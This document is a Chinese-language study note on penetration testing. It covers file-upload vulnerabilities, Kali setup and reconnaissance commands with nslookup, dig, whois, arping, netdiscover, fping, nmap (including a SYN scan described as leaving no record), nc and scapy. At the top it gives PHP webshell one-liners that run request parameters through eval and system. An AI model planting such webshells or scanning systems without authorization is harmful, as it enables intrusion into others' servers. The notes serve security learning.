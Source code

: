 # 网络安全

## 文件上传漏洞

运用抓包软件改上传文件类型

上传脚本文件后使用

```php
<?php
    eval($_REQUST["script"]);
?>//运行脚本文件
<?php
    system($_REQUST["script"]);
?>//运行系统命令
```

## kali



更换kali源

```shell
vim /etc/apt/sourcelist
粘贴:
deb http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
deb-src  http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
#main non-free 表示包
```

## 被动搜集信息

**运用第三方服务搜集信息**

#### dns信息搜集

```bash
ping 域名 -c 1 #发送一个数据包
nslookup 域名
nslookup www.baidu.com
Server:         192.168.1.1   
Address:        192.168.1.1#53

Non-authoritative answer:
www.baidu.com   canonical name = www.a.shifen.com.#别名
Name:   www.a.shifen.com#解析到的域名
Address: 14.215.177.38 #解析到的地址
Name:   www.a.shifen.com
Address: 14.215.177.39

Dig信息搜集
dig @ip(指定dns服务器) www.baidu.com any #查询


反向查询
dig -x ip #反查域名

查询网站域名和注册信息
whois 域名
```

#### 搜集子域名信息

maltego

#### shodan信息搜集

## 主动信息搜集

#### ping命令

```bash
ping ip -c number #发送数据包
ping 域名 
arping:将ip转换成mac地址
查看局域网ip冲突:
 #获取ip值命令
 arping 192.168.1.1 -c 1 |grep "bytes from" | cut -f 2 -d "(" | cut -f 1 -d ")"
 #对局域网进行ip扫描,若有一样的ip发生arp攻击
 
```

#### traceroute

```bash
traceroute 域名
traceroute to www.baidu.com (14.215.177.38), 30 hops max, 60 byte packets
 1  192.168.1.1 (192.168.1.1)  6.092 ms  6.267 ms  6.622 ms
 2  10.241.0.1 (10.241.0.1)  11.463 ms  11.794 ms  12.112 ms
 3  222.176.17.141 (222.176.17.141)  19.041 ms  19.303 ms  19.580 ms
 4  222.176.9.189 (222.176.9.189)  18.650 ms 222.176.6.69 (222.176.6.69)  18.372 ms *
 5  202.97.24.29 (202.97.24.29)  48.936 ms * *
 6  113.96.4.186 (113.96.4.186)  48.861 ms 113.96.4.178 (113.96.4.178)  42.299 ms 113.96.5.74 (113.96.5.74)  41.338 ms
 7  102.96.135.219.broad.fs.gd.dynamic.163data.com.cn (219.135.96.102)  39.453 ms 106.96.135.219.broad.fs.gd.dynamic.163data.com.cn (219.135.96.106)  40.405 ms 113.96.4.205 (113.96.4.205)  39.061 ms
 8  14.29.121.198 (14.29.121.198)  49.457 ms 14.29.117.246 (14.29.117.246)  39.550 ms 102.96.135.219.broad.fs.gd.dynamic.163data.com.cn (219.135.96.102)  41.017 ms
 

```

#### netdiscover

探测局域网中存货工具

```bash
netdiscover -i eth0 -r 192.168.1.0/24
#主动
netdiscover -p
#被动嗅探
```

#### hping3

web压力测试用,一次扫描一个目标

```
hping3 
```

#### fping

```bash
fping -g ip -c 1
fping -g 192.168.1.0/24  -c 1 |grep "bytes" >fping.txt
#查看局域网内所有网络设备并记录在文件中
```

#### nmap

网络扫描和嗅探

```bash
nmap -sn 192.168.1.1/24
#扫描局域网设备
半连接扫描(不会留下记录):
nmap -sS ip -p port 
```

#### nc

```bash
nc -nv ip -w (超时时间) -z(端口扫描)
```

### scapy

定制arp协议

```bash
ARP().display()
###[ ARP ]### 
  hwtype= 0x1 #硬件类型
  ptype= IPv4
  hwlen= None
  plen= None
  op= who-has
  ###四元组###
  hwsrc= 08:00:27:0e:34:8d
  psrc= 192.168.1.13
  hwdst= 00:00:00:00:00:00
  pdst= 0.0.0.0
  ###end###
  sr1(ARP(pdst="ip"));#定制数据包
  
  
  IP().display()
###[ IP ]### 
  version= 4
  ihl= None
  tos= 0x0
  len= None
  id= 1
  flags=
  frag= 0
  ttl= 64
  proto= hopopt
  chksum= None
  src= 127.0.0.1
  dst= 127.0.0.1
  \options\
  
  定制syn请求:
  
  TCP().display()
###[ TCP ]### 
  sport= ftp_data
  dport= http
  seq= 0
  ack= 0
  dataofs= None
  reserved= 0
  flags= S #包的类型
  window= 8192
  chksum= None
  urgptr= 0
  options= []
```

### wireshark

抓包

#### 过滤

